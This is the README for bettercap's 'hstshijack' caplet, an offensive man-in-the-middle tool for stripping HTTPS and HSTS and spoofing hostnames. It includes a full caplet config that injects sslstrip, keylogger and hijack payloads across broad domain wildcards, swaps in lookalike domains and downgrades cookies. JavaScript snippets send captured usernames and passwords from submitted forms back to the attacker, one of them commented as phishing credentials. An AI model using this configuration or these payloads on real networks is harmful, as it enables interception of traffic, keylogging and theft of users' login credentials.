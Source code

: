 <p align="center">
  <img width="420px" src="https://raw.githubusercontent.com/buffermet/cdn/master/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet ([hstshijack.cap](https://github.com/bettercap/caplets/blob/master/hstshijack/hstshijack.cap))

```sh
# Documentation can be found at https://github.com/bettercap/caplets/tree/master/hstshijack

# Domains assigned to 'hstshijack.targets', 'hstshijack.blockscripts' and 'hstshijack.payloads'
# variables get precendence over those assigned to the 'hstshijack.ignore' variable.
set hstshijack.targets                    *.com, *.net,*.me, *.nl,*.ai,*.co.uk,*.cn,*.google
set hstshijack.replacements               *.corn,*.nel,*.rne,*.ni,*.al,*.cc.uk,*.ch,*.googl
set hstshijack.replacements.req.body      /usr/local/share/bettercap/caplets/hstshijack/replacements/req.Body.json
set hstshijack.replacements.req.headers   /usr/local/share/bettercap/caplets/hstshijack/replacements/req.Headers.json
set hstshijack.replacements.req.url       /usr/local/share/bettercap/caplets/hstshijack/replacements/req.URL.json
set hstshijack.replacements.res.body      /usr/local/share/bettercap/caplets/hstshijack/replacements/res.Body.json
set hstshijack.replacements.res.headers   /usr/local/share/bettercap/caplets/hstshijack/replacements/res.Headers.json
set hstshijack.ssl.domains                /usr/local/share/bettercap/caplets/hstshijack/ssl/domains.txt
set hstshijack.ssl.index                  /usr/local/share/bettercap/caplets/hstshijack/ssl/index.json
set hstshijack.ssl.index.check            true
set hstshijack.ssl.discovery.synchronous  true
set hstshijack.ssl.discovery.timeout      4
set hstshijack.cookies.downgrade          true
#set hstshijack.blockscripts               example.com,*.example.com
set hstshijack.obfuscate                  true
set hstshijack.payloads                   *:/usr/local/share/bettercap/caplets/hstshijack/payloads/hijack.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js,*.google.com:/usr/local/share/bettercap/caplets/hstshijack/payloads/google-search.js,google.com:/usr/local/share/bettercap/caplets/hstshijack/payloads/google-search.js
set hstshijack.whitelist                  /usr/local/share/bettercap/caplets/hstshijack/session/whitelist.json
set hstshijack.ignore                     captive.apple.com,connectivitycheck.gstatic.com,detectportal.firefox.com,www.msftconnecttest.com

net.recon on

set http.proxy.script  /usr/local/share/bettercap/caplets/hstshijack/modules/http.proxy.js
http.proxy on

set dns.proxy.script /usr/local/share/bettercap/caplets/hstshijack/modules/dns.proxy.js
dns.proxy on
```

### <a href="./payloads/hijack.js">**hijack.js**</a> payload

This module injects files with a JavaScript payload (<a href="./payloads/hijack.js">**hijack.js**</a>) which acts as a callback for bettercap, and takes care of hostname spoofing in attributes of injected documents, as well as fetch and XMLHttpRequest.

Injecting <a href="./payloads/hijack.js">**hijack.js**</a> is essential for hostname spoofing.

### Scalable domain indexing (SSL log)

<br>

<p align="center">
  <img src="https://raw.githubusercontent.com/buffermet/cdn/refs/heads/master/github.com/bettercap/caplets/hstshijack/ssl.index.png" alt="Indexed domains that use HTTPS" />
</p>

When hosts respond with an HTTPS redirect, bettercap will save their hostname in lists that are sorted by domain prefixes, allowing the list to scale by reducing a considerable amount of overhead for the proxy module.

By default, this caplet will remap these lists of domains that were found in the file that you assigned to the `hstshijack.ssl.domains` variable on launch (to ensure that it is still in the right format). You can skip this by setting the `hstshijack.ssl.index.check` variable to `false`.

Bettercap will also send a HEAD request to unknown hosts that were discovered in the injected document and retrieved via a callback from the <a href="./payloads/hijack.js">**hijack.js**</a> payload. This is done to learn what hosts use HTTPS, ahead of time.

Hostnames that you target with the `hstshijack.targets` variable are automatically logged and indexed.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every targeted hostname you must specify a replacement hostname, like this:

```sh
set hstshijack.targets       google.com, *.google.com
set hstshijack.replacements  google.corn,*.google.corn
```

You can try to make them as unnoticeable as you can, but your options are limited here in terms of evading HSTS.

### Regular Expression replacements

...

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript from hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### Custom payloads

You can also inject your own scripts into files from your specified hosts by assigning them to the `hstshijack.payloads` variable.

Custom payloads are (optionally) obfuscated at launch, executed synchronously, and wrapped inside a function that is defined as a property of the current JavaScript context (globalThis). This is done to ensure that your payload is only executed once per application, even if injected multiple times.

Example:

```sh
set hstshijack.payloads        *:/usr/local/share/bettercap/caplets/hstshijack/payloads/hijack.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js
```

You should always inject the <a href="./payloads/hijack.js">**hijack.js**</a> payload when spoofing hostnames.

### Obfuscation

You can write custom payloads that are automatically obfuscated by the module.

Basically, every word that was found beginning with `obf_hstshijack_` will be obfuscated.

Example: 

```js
function obf_hstshijack_function() {
  alert("Random variable: obf_hstshijack_whatever_follows")
}

obf_hstshijack_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJWklwMNqshCaloE")
}

jfIleNwmKoa()
```

### Silent callbacks

You can have your payloads send callbacks to your machine that bettercap will print, but not proxy.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_hstshijack_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```

The following POST request will be sniffed by bettercap, but not proxied (the request will be dropped). 

Any instance of `obf_hstshijack_path_callback` will be replaced with the callback path (see example above).

### Whitelisting callbacks

You can automatically terminate an attack between specific clients and hosts by making the client's machine initiate a whitelisting callback.

Example of multiple whitelisting callbacks:

```js
// Whitelist multiple hosts to ensure the intended resources will load.

form.onsubmit = function() {
  // Whitelist current hostname and phish credentials
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.hostname + "/obf_hstshijack_path_whitelist?email=" + email + "&password=" + password)
  req.send()

  // Whitelist facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://facedook.com/obf_hstshijack_path_whitelist")
  req.send()

  // Whitelist facebook CDN
  req = new XMLHttpRequest()
  req.open("POST", "http://static.xx.fdcdn.net/obf_hstshijack_path_whitelist")
  req.send()

  // Whitelist redirect to facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://fd.com/obf_hstshijack_path_whitelist")
  req.send()
}
```

When a request is sent as above, bettercap will stop spoofing connections between the sender and the requested host.

If any resource from a spoofed host is requested that was previously whitelisted for that client, then that client will be redirected to the intended (unspoofed) host.
